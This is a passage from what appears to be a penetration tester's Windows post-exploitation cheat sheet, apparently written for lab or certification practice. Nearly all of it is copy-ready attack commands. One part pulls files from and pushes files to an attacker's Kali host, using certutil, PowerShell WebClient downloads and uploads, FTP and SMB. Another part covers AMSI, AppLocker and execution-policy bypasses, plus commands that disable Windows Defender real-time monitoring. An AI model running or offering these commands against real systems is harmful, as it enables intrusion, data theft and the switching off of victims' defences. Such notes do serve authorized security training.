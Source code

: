                 *   Useful when Process Crashes
                *   `echo "run post/windows/manage/migrate" > ~/automigrate.rc`
                *   In `multi/handler` MSF Panel → `set AutoRunScript multi_console_command -r ~/automigrate.rc`
*   File Transfers
    *   Writable Directories
        *   `c:\windows\temp\`
        *   `c:\windows\tracing\`
        *   `C:\windows\tasks\`
        *   `c\windows\system32\spool\drivers\color\`
    *   SMB / WebDAV
        *   `smbserv()` / `webdavserv()`
        *   `net use X: \\[KALI_IP]\Share [/user:hacker password]` → Transfer Data From `X:\`
        *   `\\[KALI_IP]:8000\DavWWWRoot\`
    *   HTTP
        *   `httpserv()`
        *   `certutil -urlcache -split -f "http://[KALI_IP]:8888/[SRC]" "[DEST]"` → [LOLBAS](https://lolbas-project.github.io/#)
        *   Powershell
            *   `powershell -c (New-Object System.Net.WebClient).DownloadFile('http://[KALI_IP]:8888/[SRC]', '[DEST]')`
            *   `powershell wget http://[KALI_IP]:8888/[SRC] -o [DEST]`
            *   To Kali → `. .\PSUpload.ps1` + `Invoke-FileUpload -Uri http://[KALI_IP]:8888/[DEST] -File [SRC]`
    *   FTP
        *   `ftpserv()`
        *   `powershell -c (New-Object Net.WebClient).DownloadFile('ftp://[KALI_IP]:2121/[SRC]', '[DEST]')`
        *   To Kali → `powershell -c (New-Object Net.WebClient).UploadFile('ftp://[KALI_IP]:2121/[DEST]', '[SRC]')`
    *   B64
        *   `cat [SRC] | base64 -w 0;echo` → `[IO.File]::WriteAllBytes("[DEST]", [Convert]::FromBase64String("[B64_DATA]"));`
        *   To Kali → `[Convert]::ToBase64String((Get-Content -path "[SRC]" -Encoding byte))` → `echo [B64] | base64 -d > [DEST]`   
    *   RDP
        *   `xfreerdp /v:[TARGET] /d:[DOM] /u:[USER] /p:[PASS] /drive:linux,[FOLDER_TO_SHARE]`
        *   Shared Access → `C:\[FOLDER_TO_SHARE]`
*   Evasion
    *   [Citrix / Kiosk Breakouts](https://academy.hackthebox.com/module/67/section/626)
    *   Powershell
        *   AMSI
            *   NXC Local Admin → `nxc smb [IP] [AUTH_STRING] -X '[PS_COMMAND]' --amsi-bypass [PAYLOAD_FILE]`
            *   [Payloads](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
            *   [One-Liners](https://amsi.fail/)
        *   AppLocker
            *   `Get-AppLockerPolicy -Effective | select -exp RuleCollections` 
            *   Could Also Block `exe` Files → `"This program is blocked by group policy"`
            *   [Bypasses](https://github.com/api0cradle/UltimateAppLockerByPassList)                               → Also Try World Writable Folders
        *   Constrained Language
            *   `$ExecutionContext.SessionState.LanguageMode`
            *   [Bypasses](https://sp00ks-git.github.io/posts/CLM-Bypass/)
        *   Execution Policy
            *   `powershell -noni -nop -ep bypass -w hidden -NoExit [COMMAND]` → Test B64 Also
            *   `Set-ExecutionPolicy Bypass -Scope Process`   
    *   [AV](https://book.hacktricks.xyz/windows-hardening/av-bypass)
        *   Enumeration
            *   `Get-MpComputerStatus`
            *   `wmic /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get displayName`
        *   Exclusion Bypass
            *   `reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"`
            *   Malware in Exclusion Folder
        *   Disable AV (RCE As Admin) 
            *   `powershell Set-MpPreference -DisableIOAVProtection $true`
            *   `powershell Set-MpPreference -DisableRealTimeMonitoring $true`